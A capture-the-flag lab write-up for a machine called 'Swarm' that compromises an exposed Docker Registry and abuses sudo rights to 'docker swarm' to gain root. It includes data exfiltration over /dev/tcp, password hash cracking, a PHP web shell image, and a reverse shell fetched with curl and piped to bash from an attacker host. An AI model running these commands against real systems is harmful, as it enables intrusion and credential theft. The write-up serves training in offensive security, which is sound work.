

	<font size="10">Swarm</font>

​		15<sup>th</sup> April 2022 / Document No DYY.100.XX

​		Prepared By: Melolololo

​		Machine Author: Melololo

​		Difficulty: <font color=green><font color=orange>Me</font>asy</font>

​		Classification: (In)official	

 


# Synopsis

Machine Name is an Easy Difficulty machine that features X software...

## Skills Required

- Some Skill Needed

## Skills Learned

- Some Skill/Vulnerability Taught


# Enumeration

## Nmap

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.230.94 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.230.94
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-25 17:21 BST
Nmap scan report for swarm.htb (10.129.230.94)
Host is up (0.016s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp   open  http       nginx 1.25.5
|_http-server-header: nginx/1.25.5
|_http-title: Home - Simple News Portal
2377/tcp open  ssl/swarm?
5000/tcp open  http       Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
7946/tcp open  unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.82 seconds
```

An initial `Nmap` scan reveals SSH, NGINX, a Docker Registry, and some SSL "swarm" service. Given this box's name, alarm bells should be going off right about now. 

## HTTP

Browsing to the website on port `80`, we get redirected to `swarm.htb`, which we add to our `hosts` file:

```bash
echo 10.129.230.94	swarm.htb | sudo tee -a /etc/hosts
```


We land on a News page hosting several articles surrounding events resembling those of the CTF's lore. The site has a Login mechanism but no means to register an account.  

```bash
gobuster dir -u http://swarm.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -q

/login                (Status: 200) [Size: 5673]
/profile              (Status: 302) [Size: 0] [--> /login?next=/profile]
/admin                (Status: 301) [Size: 0] [--> /admin/]
/posts                (Status: 302) [Size: 0] [--> /login?next=/posts]
/logout               (Status: 302) [Size: 0] [--> /]
```

Browsing to `/admin` reveals that we are dealing with a Django application.




# Foothold

## Docker Registry

Having exhausted our options, we turn our attention to the Docker Registry that is exposed.

We can query it for images using the API.

```bash
curl http://swarm.htb:5000/v2/_catalog

{"repositories":["newsbox-web"]}
```

```bash
curl http://swarm.htb:5000/v2/newsbox-web/tags/list

{"name":"newsbox-web","tags":["latest"]}
```

We see an image (repository) named `newsbox-web:latest`, which matches the name of the web application we checked out earlier. We proceed to pull the image to create a container locally.

```bash
docker pull 10.129.230.94:5000/newsbox-web:latest    

Error response from daemon: Get "https://10.129.230.94:5000/v2/": http: server gave HTTP response to HTTPS client
```

We get an error, as the docker client was expecting an HTTPS response. To fix this, we need to add the server to our `insecure-registries`, allowing Docker to "trust" it without validating it via SSL.

```bash
echo '{ "insecure-registries":["10.129.230.94:5000"] }' | sudo tee -a /etc/docker/daemon.json

{ "insecure-registries":["10.129.230.94:5000"] }
```

After restarting the docker daemon, we can pull the image.

```bash
sudo systemctl restart docker
docker pull 10.129.230.94:5000/newsbox-web:latest    

latest: Pulling from newsbox-web
b0a0cf830b12: Pull complete 
72914424168c: Pull complete 
545ebfaa7506: Pull complete 
80ee918b2084: Pull complete 
d361726ad66f: Pull complete 
4d2c6c1a8e80: Pull complete 
df4459b8a74f: Pull complete 
26484ab3509b: Pull complete 
Digest: sha256:26e727643185bfcf51da5fe8003f76d3b43ee1e51762fb44f0fae1c01679baed
Status: Downloaded newer image for 10.129.230.94:5000/newsbox-web:latest
10.129.230.94:5000/newsbox-web:latest
```

Now, we can create a container with the image.

```bash
# Verify we have the image
docker image ls -a                               
REPOSITORY                       TAG       IMAGE ID       CREATED        SIZE
10.129.230.94:5000/newsbox-web   latest    10411032f71d   25 hours ago   198MB

# Create the container using the Image ID
docker container create 10411032f71d

# Verify the creation
docker ps  -a
CONTAINER ID   IMAGE          COMMAND       CREATED          STATUS    NAMES
0efa04a66079   10411032f71d   "python..."   23 seconds ago   Created   peaceful_ganguly

# Start container using the name
docker start peaceful_ganguly
```

Finally,  we can hop into a shell inside the container.

```bash
docker exec -it peaceful_ganguly bash
```

We find ourselves in the `/app` directory, which matches our expectation of a Django application.

```bash
root@0efa04a66079:/app# ls -al

total 300
drwxr-xr-x  1 root root   4096 Apr 25 13:09 .
drwxr-xr-x  1 root root   4096 Apr 26 15:36 ..
-rw-r--r--  1 root root    180 Apr 25 13:08 Dockerfile
-rw-r--r--  1 root root 253952 Apr 25 12:59 db.sqlite3
drwxr-xr-x  1 root root   4096 Apr 25 14:46 django_news
-rw-r--r--  1 root root    689 Apr  6  2022 manage.py
drwxr-xr-x  4 root root   4096 Apr 24 16:57 media
drwxr-xr-x  1 root root   4096 Apr 25 12:05 newsApp
-rw-r--r--  1 root root     32 Apr 25 13:08 requirements.txt
drwxr-xr-x 11 root root   4096 Apr 25 14:49 static
-rw-r--r--  1 root root   1956 Apr 25 12:16 wget-log
```

We see a `db.sqlite3` file, which we exfiltrate and enumerate for possible password hashes.

```bash
# Locally
nc -nlvp 4444 > db.sqlite3   
listening on [any] 4444 ...
# In Docker
root@0efa04a66079:/app# cat < db.sqlite3 > /dev/tcp/10.10.14.40/4444
```

We get three hashes:

```sqlite
sqlite> select * from auth_user;

1|pbkdf2_sha256$60$9jLMaflzyx1C3dAsBqZs8m$1H64ybyNv6NWUIw+TIaYE40VIW9enXe88teW5X+cQEI=|2024-04-30 16:32:56.994788|1|admin|Administrator|admin@swarm.htb|1|1|2022-04-06 01:44:10|Melo
2|pbkdf2_sha256$60$HXF8aUc1IWkR9ajH3y8LS8$d7MFlG+lVPC03n31bt4u6OvGs7z1hJpiUYp5eGHoAZM=|2022-04-06 08:16:01|0|ChasingDeadlines|Loman|cloman@swarm.htb|0|1|2022-04-06 08:14:40|Chase
3|pbkdf2_sha256$60$6oJcB6Vhj9eECUQS5VgZME$Ha25+TiE5JozOAyUEeN0VTKN27/aNXeWuAp95JXUYFg=||0|PenniesForThoughts|Lessing|plessing@swarm.htb|1|1|2024-04-25 12:07:58|Penny
```

We save the hashes to a file and feed them to `hashcat`, mode `10000` for Django `pbkdf2`.

```bash
hashcat -m 10000 hash --wordlist /usr/share/wordlists/rockyou.txt

<...SNIP....>
pbkdf2_sha256$60$6oJcB6Vhj9eECUQS5VgZME$Ha25+TiE5JozOAyUEeN0VTKN27/aNXeWuAp95JXUYFg=:pennypenny99
```

After about thirty seconds, we obtain the password `pennypenny99`, for `Penny Lessing`'s account. We try to SSH into the machine using the credentials, with her email username being the one to use:

```bash
ssh plessing@swarm.htb
```

# Privilege Escalation

We check the `sudo` permissions.

```bash
plessing@swarm:~$ sudo -l

Matching Defaults entries for plessing on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User plessing may run the following commands on localhost:
    (root : root) /usr/bin/docker swarm *
```

We see that we can run the `docker swarm` command as `root`.

Abusing this may require some research on the players' part, but it is quite simple:

0. Initialise a swarm on the target

1. Join the swarm from our attacking machine, as a Manager
2. Create a malicious image on our attacking machine
3. Create a swarm service with the malicious image and push it to the swarm's nodes
4. This will create the malicious image on all nodes that are a part of the swarm, including the target
5. Profit

We would start by initialising the swarm, but that seems to already be the case:

```bash
plessing@swarm:~$ sudo docker swarm init

Error response from daemon: This node is already part of a swarm. Use "docker swarm leave" to leave this swarm and join another one.
```

We then generate a manager token for our attacking  machine:

```bash
plessing@swarm:~$ sudo docker swarm join-token manager

To add a manager to this swarm, run the following command:

    docker swarm join --token SWMTKN-1-4lgn49qnlg2em8i8kiow50f9x1qt0rh0ru453kbs2xcvv9b9ym-2sa3ni9uj490oioypa72nnyof 10.129.230.94:2377
```

We run the command on our machine:

```bash
docker swarm join --token SWMTKN-1-4lgn49qnlg2em8i8kiow50f9x1qt0rh0ru453kbs2xcvv9b9ym-2sa3ni9uj490oioypa72nnyof 10.129.230.94:2377

This node joined a swarm as a manager.
```

Next, we build a malicious image and push it to the target registry.

```bash
mkdir pwnpod
cd pwnpod

cat > Dockerfile <<EOF
FROM php:latest
WORKDIR /var/www/html
COPY index.php .
CMD ["php", "-S", "0.0.0.0:1337"]
EOF

cat > index.php <<EOF           
<?php system(\$_GET[0])?>
EOF

docker image build . -t pwnpod:latest
docker image tag pwnpod:latest 10.129.230.94:5000/pwnpod:latest
docker push 10.129.230.94:5000/pwnpod:latest
```

Finalemente, we create the service and push it to the swarm infecting all nodes that stand in our way. 

```bash
docker service create -d -p 1337:1337 --name pwnpod4 --replicas 2 --mount type=bind,source=/,target=/mnt localhost:5000/pwnpod:latest  

image localhost:5000/pwnpod:latest could not be accessed on a registry to record
its digest. Each node will access localhost:5000/pwnpod:latest independently,
possibly leading to different nodes running different
versions of the image.
```

Two things are crucial here. Firstly, while one might be tempted to specify the remote registry explicitly, i.e. `10.129.230.94:5000`, this will cause the you to pwn yourself, as the container will be defined on your system and despite being accessible via `10.129.230.94:1337`, your own filesystem will be mounted, instead of the target's. As such, we must define the registry as `localhost:5000`, which will fail on our system but succeed on the target system, which actually has a running registry. Secondly, note the `--replicas 2`. With more members in the swarm, we could either make this a global service or increase the replicas, to affect more nodes in the swarm.

We can now see the malicious containers running, but only on the target system. For us, the `kali` nodes, we get a `No such image:` error. 

```bash
docker service ps pwnpod 

ID             NAME            IMAGE                          NODE      DESIRED STATE   CURRENT STATE            ERROR                              PORTS
lbfhy0rvbrhs   pwnpod       localhost:5000/pwnpod:latest   swarm     Running         Running 5 minutes ago                                       
zsnh853oc6b8   pwnpod       localhost:5000/pwnpod:latest   swarm     Running         Running 5 minutes ago                                       
cf7emqg769cj    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
uqjlwcjl4d7o    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
uwz8he51e1am    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…"   
0ojk8urmx2qv    \_ pwnpod   localhost:5000/pwnpod:latest   kali      Shutdown        Rejected 5 minutes ago   "No such image: localhost:5000…" 
```

Checking the open ports on the target reveals that `1337` is listening, as we defined.

```bash
plessing@swarm:~$ ss -tlpn

State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    Process
LISTEN    0         4096               0.0.0.0:5000             0.0.0.0:*
LISTEN    0         4096               0.0.0.0:80               0.0.0.0:*
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*
LISTEN    0         4096                  [::]:5000                [::]:*
LISTEN    0         4096                     *:2377                   *:*
LISTEN    0         4096                     *:7946                   *:*
LISTEN    0         4096                  [::]:80                  [::]:*
LISTEN    0         128                   [::]:22                  [::]:*
LISTEN    0         4096                     *:1337                   *:*
```

Finally, we can use this exposed port to access our malicious PHP server and get a shell inside the container, with the target's filesystem mounted. 

```bash
curl http://10.129.230.94:1337/index.php?0=id

uid=0(root) gid=0(root) groups=0(root)
```

Shell incoming:

```bash
nc -nlvp 4444
```

```bash
cat > boom.sh<<EOF
#!/bin/sh
/bin/sh -i >& /dev/tcp/10.10.14.59/4444 0>&1
EOF
python3 -m http.server 80
```

```bash
curl http://10.129.230.94:1337/index.php?0=curl+10.10.14.59/boom.sh\|bash
```

```bash
nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.10.14.59] from (UNKNOWN) [172.18.0.8] 38604
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```

We got a shell as `root`. The host filesystem is mounted in `/mnt`.

```bash
# cd /mnt
# ls -al root 
total 56
drwx------  6 root root  4096 Apr 30 16:31 .
drwxr-xr-x 18 root root  4096 Apr 17 08:46 ..
lrwxrwxrwx  1 root root     9 Apr 25 14:58 .bash_history -> /dev/null
-rw-r--r--  1 root root   571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root  4096 Apr 24 16:55 .cache
drwx------  3 root root  4096 Apr 25 13:09 .docker
-rw-r--r--  1 root root   161 Jul  9  2019 .profile
drwxr-xr-x  2 root root  4096 Apr 25 11:57 .vim
-rw-------  1 root root 18003 Apr 30 16:31 .viminfo
drwxr-xr-x  4 root root  4096 Apr 25 14:44 docker
-rw-r-----  1 root root    33 Apr 25 14:58 root.txt
```

Alternative methods of exploitation may include leaving the swarm on the target system (this won't break the services, I tested it) and creating a swarm on our attacking machine, joining it from the target system as a worker. One can then also deploy malicious images, either by forwarding a local registry or using the one on the target. 
